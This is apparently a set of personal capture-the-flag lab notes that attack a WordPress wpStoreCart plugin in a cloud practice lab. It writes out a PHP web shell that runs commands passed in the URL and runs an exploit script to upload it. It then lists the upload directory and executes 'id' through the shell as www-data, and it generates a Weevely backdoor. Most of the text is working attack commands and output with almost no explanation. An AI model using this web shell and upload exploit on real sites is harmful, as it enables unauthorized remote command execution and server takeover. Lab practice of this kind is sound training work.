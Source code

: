 `vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>
```

`php -f ./wpstorecart_exploit.php`:
```
PHP Fatal error:  Uncaught Error: Call to undefined function curl_init() in /home/kali/wpstorecart_exploit.php:5
Stack trace:
#0 {main}
  thrown in /home/kali/wpstorecart_exploit.php on line 5
```
❌

`sudo apt install php-curl`

`php -f ./wpstorecart_exploit.php`

`curl -s https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/ | htmlq`
```html
<html><head>
  <title>Index of /wp-content/uploads/wpstorecart</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads/wpstorecart</h1>
  <table>
   <tbody><tr><th valign="top"><img alt="[ICO]" src="/icons/blank.gif"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img alt="[PARENTDIR]" src="/icons/back.gif"></td><td><a href="/wp-content/uploads/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img alt="[   ]" src="/icons/unknown.gif"></td><td><a href="shell.php">shell.php</a></td><td align="right">2024-11-28 14:52  </td><td align="right"> 75 </td><td>&nbsp;</td></tr>📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

`curl 'https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
</pre>
```

`weevely generate 'password123' ./weevely_shell.php`:
```
Generated './weevely_shell.php' with password 'password123' of 688 byte size.
```
